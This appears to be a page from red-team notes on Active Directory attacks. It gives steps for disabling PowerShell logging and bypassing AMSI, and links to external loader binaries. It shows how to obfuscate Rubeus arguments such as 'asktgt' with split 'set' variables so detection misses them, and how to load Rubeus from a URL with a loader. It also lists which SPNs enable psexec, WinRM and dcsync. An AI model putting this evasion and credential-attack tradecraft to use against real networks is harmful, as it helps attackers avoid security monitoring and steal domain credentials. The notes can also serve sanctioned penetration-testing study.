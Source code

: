 ## PowerShell Scripts
>Use  [InviShell](02%20-%20Notes.md#Bypassing%20PowerShell%20Logging) to disable PowerShell logging, has a built-in AMSI bypass.
>
> Alternitavely use an [AMSI bypass](02%20-%20Notes.md#Bypass%20AMSI%20and%20ETW).
> 
> If static detection is a problem, try obfuscating the tool.
---
## Binaries
https://raw.githubusercontent.com/Raptoratack/ADTools/refs/heads/main/ArgSplit.bat
https://github.com/Raptoratack/ADTools/blob/main/Loader.exe
>  Use ArgSplit to obfuscate the command argument, e.g: kerberoast, asktgt, etc...
> Copy and paste all the `set` :
>```cmd
>[!] Argument Limit: 180 characters
>[+] Enter a string: asktgt
>set "z=t"
>set "y=g"
>set "x=t"
>set "w=k"
>set "v=s"
>set "u=a"
>set "Pwn=%u%%v%%w%%x%%y%%z%"
> ```
> Check that the `%Pwn%` variable is what the want.
> 
>Use Loader.exe to load our binaries (Rubeus example):
>```cmd
>Loader.exe -Path Rubeus.exe -args %Pwn% /stats /rc4opsec
>```
>Use Loader.exe with the [behaviour detection bypass](03%20-%20File%20Transfer.md#Bypass%20behaviour%20detection%20when%20downloading%20a%20file):
>```cmd
>Loader.exe -Path http://127.0.0.1:8080/Rubeus.exe -args %Pwn% /stats /rc4opsec
>```
---
## SPN
>**ℹ️ Info:**
> Different SPN and what they're used for:
>- CIFS for directory browsing, copying files.
>- HTTP for WinRS.
>- HOST and CIFS for psexec.
>- HOST and RPCSS for WMI.
>- HOST and HTTP for PowerShell Remoting/WINRM.
>- LDAP for dcsync.